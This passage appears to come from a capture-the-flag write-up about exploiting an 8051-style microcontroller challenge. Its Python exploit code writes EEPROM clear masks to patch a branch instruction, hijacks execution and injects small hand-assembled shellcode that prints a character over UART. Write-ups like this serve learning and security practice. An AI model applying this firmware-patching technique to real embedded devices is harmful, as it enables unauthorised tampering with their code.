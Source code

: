 We only need to flip the 1's so this will work.

```python
CJNE_TARGET = 0x5e6

def byteToClearMask(byte):

    return (1 << 8) - 1 - byte                                                      #little helper function to invert 0's into 1's

def hijackExecution():

    targetPage=math.floor(CJNE_TARGET/64)
    pageOffset = CJNE_TARGET - (targetPage * 64)
    page = [ 0 for _ in range(pageOffset) ]
    page += [0b11111101, 0b11110101, 0b00000000]                                    #this is a clearmask. Every 1 here marks a corresponding bit to be flipped to a 0

    page += [ 0 for _ in range(64-len(page)) ]

    eepromPacket = f"{targetPage} {str(0xa5)} {str(0x5a)} {str(0xa5)} {str(0x5a)}"  #documented in the EEPROM programming section of the datasheet
    for i in page:
        eepromPacket += " "
        eepromPacket += str(i)

    t.recvuntil("?")
    log.info("overriding the execution flow...")
    t.sendline("w " + str(EEPROM) + " " + str(69) + " " + eepromPacket)
```

Let's test it with a simple shellcode.
I assembled it by hand using this reference https://www.keil.com/support/man/docs/is51/is51_opcodes.htm

```python
SHELLCODE_ADDRESS = 0x0a0c

SHELLCODE = [ 0x75, 0xf2, 0x41 ]    #place an ascii 'A' into UART output SFR

def injectShellcode():

    targetPage = math.floor(SHELLCODE_ADDRESS/64)
    pageOffset = SHELLCODE_ADDRESS - (targetPage*64)
    page = [ 0 for _ in range(pageOffset) ]
    page += [ byteToClearMask(i) for i in SHELLCODE ]

    page += [ 0 for _ in range(64-len(page)) ]
    eepromPacket = f"{targetPage} {str(0xa5)} {str(0x5a)} {str(0xa5)} {str(0x5a)}"
    for i in page:
        eepromPacket += " "
        eepromPacket += str(i)

    t.recvuntil("?")
    log.info("injecting the shellcode")
    t.sendline("w " + str(EEPROM) + " " + str(69) + " " + eepromPacket)
    
injectShellcode()
hijackExecution() 
```
